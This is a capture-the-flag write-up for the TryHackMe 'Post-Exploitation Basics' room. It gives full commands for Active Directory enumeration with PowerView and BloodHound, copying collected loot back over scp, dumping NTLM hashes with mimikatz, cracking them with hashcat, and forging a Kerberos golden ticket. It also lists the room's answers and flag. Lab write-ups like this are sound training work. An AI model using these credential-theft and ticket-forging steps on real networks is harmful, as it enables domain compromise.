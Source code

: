![Post-Exploitation Basics Banner](https://tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/postexploit/Post_Exploitation_Basics_Cover.png" alt="Post-Exploitation Basics Logo">
</p>

# Post-Exploitation Basics

This guide contains the answer and steps necessary to get to them for the [Post-Exploitation Basics](https://tryhackme.com/room/postexploit) room.

## Table of contents

- [Enumeration w/ Powerview](#enumeration-w-powerview)
- [Enumeration w/ Bloodhound](#enumeration-w-bloodhound)
- [Dumping hashes w/ mimikatz](#dumping-hashes-w-mimikatz)
- [Golden Ticket Attacks w/ mimikatz](#golden-ticket-attacks-w-mimikatz)
- [Enumeration w/ Server Manager](#enumeration-w-server-manager)
- [Maintaining Access ](#maintaining-access)

### Enumeration w/ Powerview

These questions were a bit difficult as there was no single point of information to use. Multiple posts had different commands, some of which wouldn't work. Some were not listed on each site.

1. What is the shared folder that is not set by default?

   For this I found two commands that could be of use.

   ```cmd
   Get-NetShare

   Invoke-ShareFinder
   ```

   Both would give the attached shared folders. The one without a description is most likely not default.

   POWERVIEW SHARED

   ><details><summary>Click for answer</summary>Share</details>

3. What operating system is running inside of the network besides Windows Server 2019?

   The command that could help with this is `Get-NetComputer`. This would only return a long list of data when used with `-FullData`. Now all we need to do is filter on the operating system as done in the example.

   ```cmd
   Get-NetComputer -FullData | select operatingsystem
   ```

   POWERVIEW OPERATING

   ><details><summary>Click for answer</summary>Windows 10 Enterprise Evaluation</details>

5. I've hidden a flag inside of the users find it

   For this we can actually use the same command as in the example to view the common name (cn) of the user.

   ```cmd
   Get-NetUser | select cn
   ```

   POWERVIEW FLAG

   ><details><summary>Click for answer</summary>POST{P0W3RV13W_FTW}</details>

### Enumeration w/ Bloodhound

To get the necessary data we follow the steps provided. Make sure to use a newer version of the SharpHound.ps1 file. The provided one is incompatible with the latest Bloodhound version. The version in the bloodhound folder works fine.

We copy it to the machine using scp over ssh:

```cmd
scp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 Administrator:10.10.27.24:C:/Users/Administrator/Downloads/SharpHound.ps1
```

Now we can run the script and copy the loot back to our machine.

```cmd
. .\SharpHound.ps1

Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

```cmd
scp Administrator:10.10.27.24:C:/Users/Administrator/Downloads/loot.zip loot.zip
```

Now we can import it into Bloodhound.

1. What service is also a domain admin

   For this we use the query: "Find all Domain Admins".

   BLOODHOUND DOMAIN ADMINS

   ><details><summary>Click for answer</summary>SQLSERVICE</details>

3. What two users are Kerberoastable?

   For this we can use the query: "List all Kerberoastable Accounts".

   BLOODHOUND KERBEROASTABLE

   ><details><summary>Click for answer</summary>SQLSERVICE, KRBTGT</details>

### Dumping hashes w/ mimikatz



misc::cmd

After connecting through ssh or rdp we must start mimikatz and give it admin privileges using `privilege:debug`.

1. what is the Machine1 Password?

   Now we can use lsadump to dump the required NTLM hashes.

   ```cmd
   lsadump::lsa /patch
   ```

   MIMIKATZ HASHES HASHES

   Using hashcat, we can crack the hash for the Machine1 user.

   ```cmd
   hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
   ```

   MIMIKATZ HASHES PASSWORD

   Remember to use the correct hash type in hashcat. If you don't remember, you can use `hashcat -h | grep NTLM` to look for the correct type for NTLM hashes.   

   ><details><summary>Click for answer</summary>Password1</details>

3. What is the Machine2 Hash?

   This hash can be found in the list of hashes dumped by `lsadump`.
   
   ><details><summary>Click for answer</summary>c39f2beb3d2ec06a62cb887fb391dee0</details>

### Golden Ticket Attacks w/ mimikatz

To create a golden ticket, we must first get more information about the krbtgt user.

```cmd
lsadump::lsa /inject /name:krbtgt
```

This should give us what we need to craft a ticket.

GOLDEN INFO

To generate a a golden ticket we need the following:

- user
- sid
- id
- domain
- krbtgt (NTLM hash)
- 

Combining these from the image above, gives us the following command:

```cmd
kerberos::golden /domain:CONTROLLER.local /user:krbtgt /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:502 
```

GOLDEN TICKET

Now we can use this to open a command window on the system with which we have access to other systems as well.

```cmd
misc::cmd
```

GOLDEN NETWORK

Unfortunately, no other systems are configured in this room, so you will need to take my word for it.

### Enumeration w/ Server Manager

1. What tool allows to view the event logs?

   Looking at the various tool available to us, one seems to be a logical choice.

   SERVER EVENTS

   ><details><summary>Click for answer</summary>Event Viewer</details>

3. What is the SQL Service password

   Using the 'Active Directory Users and Computers' tool, we can see a password stored in the description after navigating to the users tab.

   SERVER PASSWORD

   ><details><summary>Click for answer</summary>MYpassword123#</details>
